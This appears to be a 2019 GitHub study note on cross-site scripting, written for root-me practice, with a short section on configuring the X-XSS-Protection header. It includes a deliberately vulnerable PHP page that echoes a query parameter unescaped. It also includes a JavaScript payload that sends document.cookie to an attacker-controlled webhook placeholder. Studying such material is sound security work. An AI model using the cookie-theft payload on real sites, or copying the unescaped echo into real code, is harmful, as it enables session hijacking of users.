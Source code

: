 ### Web - XSS
Written on Sep 6 2019
> Influenced by a plethora of tasks on  [rootme](https://root-me.org/)
> and a LOT of googling  

Note that in order to play with XSS, you need to disable browser protection,
The following php codes must include:  
`
header("X-XSS-Protection: 0");
`  
You can read about this at [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
The HTTP X-XSS-Protection response header is a feature of Internet Explorer, Chrome and Safari that stops pages from loading when they detect reflected cross-site scripting (XSS) attacks. Although these protections are largely unnecessary in modern browsers when sites implement a strong Content-Security-Policy that disables the use of inline JavaScript ('unsafe-inline'), they can still provide protections for users of older web browsers that don't yet support CSP.
Albeit this will be futher explained later at this note.  

Also, you can find payloads to play with at [HTML5 Security Cheatsheet](http://html5sec.org/)   

#### 1. XSS - reflected  
   It is recommended that you try to read more about this in the docs section of root-me and try to solve a challenge for practice.  
   Initial code:  
   ```php
   <?php 
   // header included here
   // you will need a php server to run the example 
   // you can use the default php server by running
   // php -s localhost:80
   // read more about php built-in we server here
   // https://www.php.net/manual/en/features.commandline.webserver.php
   ?>
   
   <html>
    <body>
        <h1> <?php echo "Hello".$GET['try'] ?></h1>
        <!--
        This will output the concat result of Hello and what you supply as argument to the ?try parameter
        localhost:80/yourcode.php?try={payload later goes here}
        -->
    </body>
   </html>
   ```  
   supplying 
   ```javascript
   <script>console.log(1)</script>
   ``` 
   as input will be reflected in the webpage, thus the name **reflected Cross Site Scripting**  
   Of course writing to the console is boring, however this proves that we have code execution the context of the browser, an attacker may then leverage the full capabilities of JS with the ability to steal JS-accessible cookies which is usually the case for a session hijacking attack.  
   Read more about cookies and scoping [here](https://developer.mozilla.org/fr/docs/Web/API/Document/cookie)  
   Let's make our first payload. However, we will need some kind of session cookie. This can be done by  
   ```php
   <?php
   // Starting session
   // this will create cookies
   // you can them by viting the developer tools  
   session_start();
   ?>
   ```
   The session_start() function first checks to see if a session already exists by looking for the presence of a session ID. If it finds one, i.e. if the session is already started, it sets up the session variables and if doesn't, it starts a new session by creating a new session ID.  
   [official manual](https://www.php.net/manual/fr/function.session-start.php)  
   To our first test, let's try to steal the cookies:
   payload:
   ```javascript
   let element = document.createElement("img");
   element.setAttribute("src", "webhookurl/?"+document.cookie);
   document.body.appendChild(element);
   ```  
   The example above, gets the document cookie and appends it to the url of an attacker's controlled webhook.  
   _Note: Don't forget to urlencode_  
   for more advanced attack vectors try HTTP parameter pollution.  
   Read about that [here](https://www.owasp.org/index.php/4.8.1_Test_de_Reflected_Cross-Site_Scripting_(OTG-INPVAL-001))  
   Its time for you to go to rootme and play.  
   Additional for CTF creation: 
   **Check PhantomJS the scriptable headless browser, or selenium on python if you want to automate the behavior of a user**  

### 2. XSS - Stored 
   Written on Sep 6 2019 
   As You would have figured by now, for reflected XSS an attacker would have to send a URL with the payload in order to successfully perform the attack. This is not the case for stored XSS as it would trigger on every page which has the injected payload loaded from a file or a database. 
   This bug can be found on sections loading data dynamically from an external storage source, and the payload can be inserted in a signup/message/comment-like field.
   Same concepts for reflected XSS are inherited, however it is the client side equivalent to SQL injection, targeting users instead of the application itself.  
   ![alt text](https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/sorted-XSS.png "image taken from impreva")  
   _Solve root-me tasks and if you have anything to add or any issues file a new issue_  

[comment]: <> (add XSS stored example)
[comment]: <> (add uXSS example)
[comment]: <> (add on the methodology of fuzing fo filter bypass)      

## Protection Headers   
### 1. X-XSS-Protection  
   Written on Sep 09 2019
   The **X-XSS-Protection** response header is a security feature implemented by Chrome, Safari, and IE to help block a webpage on the event of detecting reflected injection.  
   Note that modern browsers have stronger features such as CSP, which will be discussed latehowever this is handy when dealing a large portion of the user base relying on older browsers which do not support that feature.  
   In case you are running **Apache**, this can be added by just appending  
   ```
   Header set X-XSS-Protection " (code 0 or 1); [mode=block]"
   or 
   Header set X-XSS-Protection " (code 1); [report=<reporting-uri>]"
   ```  
   to the _.htaccess_ file.  
   In case you are running **Nginx** use the add_header directive  
   ```
   add_header "HEADER GOES HERE"
   ```  
   It is documented [**here**](http://nginx.org/en/docs/http/ngx_http_headers_module.html#add_header).  
   **code**: can be either 0 or 1, describing the state of the XSS filter (0 for disabled). With 1 set as value, the browser will try to sanitize the page removing the unsafe parts. Note that this is not the recommended usage as this can be leveraged by attackers to attack the business logic of a web-app still and hijack the execution flow of existing JS code.  
   **mode** (_optional but **recommended**_): can equal block, the browser will prevent the rendering of the page if an attack  is detected instead of trying to strip away the unsafe parts.  
   **report**: (_optional and available only on Chromium_), will report detected violations using the functionality of the CSP after sanitizing the page.  
   _For Browser compatibility, [**check MDN**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection#Browser_compatibility)__  

#  

### [REFERENCES AND READS]
* [XSS Attacks - Impreva](https://www.imperva.com/learn/application-security/cross-site-scripting-xss-attacks/)  
* [X-XSS-Protection Header - MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection/)  
* [CSP: Content Security Policy Header - MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/)  
* [XSS Injection - swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection/)  
* [Advanced XSS Knowledge exploit-db](https://www.exploit-db.com/papers/13646)
* [Bypassing XSS filters - %00 How to](https://null-byte.wonderhowto.com/how-to/advanced-techniques-bypass-defeat-xss-filters-part-1-0190257/)
